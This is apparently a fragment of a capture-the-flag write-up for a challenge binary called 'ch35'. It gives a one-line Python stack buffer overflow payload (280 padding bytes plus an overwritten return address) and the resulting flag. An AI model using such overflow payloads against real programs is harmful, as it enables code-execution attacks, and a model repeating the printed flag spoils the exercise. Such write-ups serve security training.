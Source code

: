 ### run command
```
(python -c 'print "A"*280 + "\xe7\x05\x40\x00\x00\x00\x00\x00\n"'; cat) | ./ch35
```

=> flag is `B4sicBufferOverflowExploitation`
